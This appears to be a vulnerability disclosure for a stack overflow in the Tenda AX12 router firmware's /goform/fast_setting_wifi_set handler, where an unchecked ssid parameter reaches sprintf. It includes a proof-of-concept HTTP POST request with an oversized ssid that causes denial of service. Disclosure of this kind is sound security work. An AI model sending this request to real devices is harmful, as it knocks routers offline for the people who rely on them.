

## Vulnerability description ##
Affect device：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

Vulnerability Type: Stack overflow

Impact: Denial of Service(DoS)

## Vulnerability cause ##
In the /goform/fast_setting_wifi_set interface, the ssid parameter and the sprintf function passed through it do not limit the length, which will cause stack overflow and achieve the effect of a DoS denial of service attack.




## POC ##

Poc of Denial of Service(DoS):

```http
POST /goform/fast_setting_wifi_set HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 10
Origin: http://192.168.0.1
Connection: close
Cookie: password=xxxxxxxxxx
Referer: http://192.168.0.1/main.html

ssid=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa+1000*a
```
